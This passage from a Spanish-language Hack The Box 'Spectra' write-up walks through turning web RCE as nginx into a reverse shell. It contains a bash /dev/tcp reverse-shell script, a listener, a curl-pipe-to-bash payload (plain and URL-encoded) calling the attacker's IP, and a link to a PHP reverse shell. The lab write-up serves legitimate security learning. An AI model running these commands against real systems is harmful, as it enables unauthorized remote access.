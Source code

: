 ![317page80_theme_seven_404php_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317page80_theme_seven_404php_RCE.png)

Opa, somos `nginx` y estamos en el host principal. Entablémonos una Reverse Shell:

Bueno, despues de varios intentos nos damos cuenta de que `nc` no esta instalado o no lo toma, también vemos que hay problemas con `bash`, ya que si intentamos establecer la RevSH creándonos un archivo que cuando se ejecute nos lancé la petición para la Shell no hace nada:

Creamos el archivo:

```bash
❭ cat rerere.sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.194/4433 0>&1
```

Creamos servidor web con `Python`:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Nos ponemos en escucha:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y ahora en la web (podemos pasar los comandos a `URL Encode` para evitar errores de concatenación y sintaxis) le indicamos que nos descargue ese archivo y a la vez nos lo ejecute con `bash`:

```html
<!-- Sin URL encode -->
xmd=curl http://10.10.14.194:8000/rerere.sh | bash

<!-- URL Encode -->
xmd=curl%20http%3A%2F%2F10.10.14.194%3A8000%2Frerere.sh%20%7C%20bash
```

Pero al ejecutar no pasa nada, probé cambiando el path de `bash`, jugando con `sh` (pueden validar que shells hay activas en la máquina visitando el archivo `/etc/shells`), moviendo el archivo a `/tmp` y despues ejecutándolo, pero nada...

* [Moving files with **cURL**](https://stackoverflow.com/questions/16362402/save-file-to-specific-folder-with-curl-command).

Asi que recordé que `pentest monkey` tiene una Reverse Shell con `PHP`, probando con ella logramos obtener la Shell (:

* [pentestmonkey / php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
